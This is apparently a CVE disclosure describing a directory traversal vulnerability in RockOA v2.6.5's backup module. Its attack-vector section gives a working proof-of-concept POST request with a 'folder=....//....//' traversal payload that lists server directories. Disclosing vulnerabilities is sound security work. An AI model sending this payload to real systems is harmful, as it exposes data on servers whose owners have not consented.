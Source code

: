 # [CVE-ID]
CVE-2024-48213

# [DESCRIPTION]
RockOA v2.6.5 is vulnerable to Directory Traversal in `webmain/system/beifen/beifenAction.php`.

# [Vulnerability Type]
Directory Traversal

# [Vendor of Product]
http://www.rockoa.com/

# [Affected Product Code Base]
rockoa v2.6.5 - rockoa v2.6.5

# [Affected Component]
`webmain/system/beifen/beifenAction.php # beifenClassAction # getdatssssAjax()`

# [Attack Type]
Remote

# [Impact Information Disclosure]
True

# [CVE Impact Other]
Listing directory

# [Attack Vectors]
Login first,
then:

POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true
folder=....//....//

# [Discoverer]
Liqun Yang (lqyang@buaa.edu.cn)

https://github.com/N0zoM1z0/

# [Reference]
http://rockoa.com

http://www.rockoa.com/

